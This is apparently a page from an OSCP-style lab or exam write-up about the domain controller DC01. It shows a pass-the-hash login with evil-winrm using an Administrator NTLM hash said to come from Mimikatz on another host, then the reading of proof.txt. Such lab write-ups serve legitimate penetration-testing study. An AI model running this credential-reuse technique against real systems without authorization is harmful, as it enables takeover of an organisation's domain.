


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# DC01

Initial access is provided with the `oscp.exam\Administrator` user's hash via `evil-winrm`. The hash was retrieved from [`MS02` with Mimikatz](ms02.md#mimikatz). It is used as follows:

```bash
evil-winrm -i dc01.oscp.exam -u 'Administrator' -H 59b280ba707d22e3ef0aa587fc29ffe5
```

<figure><figcaption><p>Initial access as Administrator</p></figcaption></figure>

Once access is obtained I can read the `proof.txt` file right away:

<figure><figcaption><p>Proof.txt</p></figcaption></figure>

Domain fully compromised.
